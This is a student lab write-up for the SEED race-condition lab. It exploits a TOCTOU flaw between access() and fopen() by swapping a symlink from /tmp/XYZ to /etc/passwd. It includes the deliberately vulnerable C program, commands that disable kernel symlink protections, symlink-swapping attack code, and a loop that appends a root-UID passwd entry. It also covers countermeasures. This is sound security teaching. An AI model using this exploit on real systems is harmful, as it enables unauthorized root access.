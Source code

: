 # Race Condition Vulnerability Lab

A race condition occurs when multiple processes access and manipulate the same data concurrently, and the outcome of the execution depends on the particular order in which the access takes place.

## Environment Setup

First we needed to disable some protections of the OS:

```bash
# On Ubuntu 20.04, use the following:
$ sudo sysctl -w fs.protected_symlinks=0
$ sudo sysctl fs.protected_regular=0
```

Then, we have a vulnerable program, that contains a race condition vulnerability and we will explore that in the present SEED Lab.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        fp = fopen(fn, "a+");
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}
```

## Task 1: Choosing Our Target

As a first task, it was suggested that we add a new user to the system. However, as a normal user does not have permissions to edit the `/etc/passwd` file, we need to use the vulnerability explained earlier to add a new user with root privileges.
In this first phase, we just edit that same file as superuser:

```bash
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

In this way, it was possible to verify that by creating a "test" user with a user ID field of 0 and a specific password, the user is able to log in to the system without the need to enter a password and has root privilege.
This conclusion is important for the next tasks where we will try to achieve the same result, but as a normal user (without root privileges).

## Task 2: Launching the Race Condition Attack

### Task 2.A: Simulating a Slow Machine

In a first attempt to carry out the attack, we started by slowing down the machine and thus increasing the time window between the `access()` and `fopen()` calls in our script by 10 seconds. We did this using the `sleep()` function and added the following lines of code to the vulp.c file:

```c
if (!access(fn, W_OK)) {
    sleep(10);
    fp = fopen(fn, "a+");

...
```

As the program is owned by root, it is run with root privileges (Effective UID). However, it's crucial to note that the `access()` call uses the Real UID, which is the unprivileged user's UID.

Therefore, we need to change the symbolic link of the file between the `access()` and `fopen()` calls to enable writing to the system's password file. During those 10 seconds, we change the symbolic link from our `/tmp/XYZ` file to our target file `/etc/passwd`.

```bash
ln-sf /etc/passwd /tmp/XYZ
```

After executing this command and the script, we were able to successfully write to the `/etc/passwd` file and consequently obtain root privileges.

### Task 2.B: The Real Attack

The attack program consists of successive changes on the symbolic link of our file, redirecting operations from `/tmp/XYZ` to `/etc/passwd` file. Thus, if we get the timming right, in the target code instead of appending content to `/tmp/XYZ`, in fact we'll append the content to `/etc/passwd` resulting in the addition of the line that creates a new user with root privileges.

```c
#include <unistd.h>

int main() {
	while(1) {
		unlink("/tmp/XYZ");                 // A
		symlink("/etc/passwd","/tmp/XYZ");  // B
	}
	return 0;
}
```

To run and monitoring the attack, we'll use this bash script:

```bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]          # Check if /etc/passwd is modified
do
    echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp      # Run the vulnerable program
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

Running this two scripts in parallel, it took several minutes and hundreds of attemps to exploit with success.

### Task 2.C: Improved Attack Method

One of the main reasons for the failure in the previous step is that the attack code itself suffers from a race condition. Internally, between `unlink()` (instruction A) and `symlink()` (instruction B) calls, the `fopen()` of the target code can switch the context to the root and make the `/tmp/XYZ` file be owned by root. So, the current user cannot access or modify intentionally the `/tmp/XYZ` file anymore.

To solve this issue, we used the following code, which ensures atomicity between the `unlink()` and `symlink()` calls:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>

int main() {
    unsigned int flags = RENAME_EXCHANGE;
    unlink("/tmp/XYZ"); symlink("/dev/null",   "/tmp/XYZ");
    unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");
    renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
    return 0; 
}
```

The attack still worked as expected after some attempts.

## Task 3: Countermeasures

### Task 3.A: Applying the Principle of Least Privilege

In summary, the problem is that since the program is owned by root and the `fopen()` call uses the effective UID, the attacker is able to manipulate files that require root privileges.

To prevent the exploit we can force the effective UID to be the same as the real UID, for that we added the following code:

```c
uid_t realUID = getuid();
seteuid(realUID);

...
```

The exploit stopped working since the effective UID is not **root** anymore and `fopen()` will always fail on the `/etc/passwd` file.

### Task 3.B: Using Ubuntu's Built-in Scheme

The protection is the following:

```bash
sudo sysctl -w fs.protected_symlinks=1
```

We confirmed that the exploit stopped working.

#### (1) How does this protection scheme work? 

We found the following explanation in the web (https://sysctl-explorer.net/fs/protected_symlinks/)

In summary, we only are able to follow symlinks if one of those conditions met:
1. When outside a sticky world-writable directory
2. When uid of the symlink and follower match
3. When the directory owner matches the symlink's owner
   
In this specific program, the first condition doesn't affect since our file is inside a world-writable directory, `/tmp/`, however, both the others will prevent the user from creating a symlink to files which he doesn't have access, preventing the exploit.

#### (2) What are the limitations of this scheme?

This protection is focused on race condition attacks related to sticky symlinks. It does not address other types of race conditions or security vulnerabilities in the system. (CVE-2018-6954)

# Author

G1:

- Alexandre Nunes (up202005358)
- Fábio Sá (up202007658)
- Inês Gaspar (up202007210)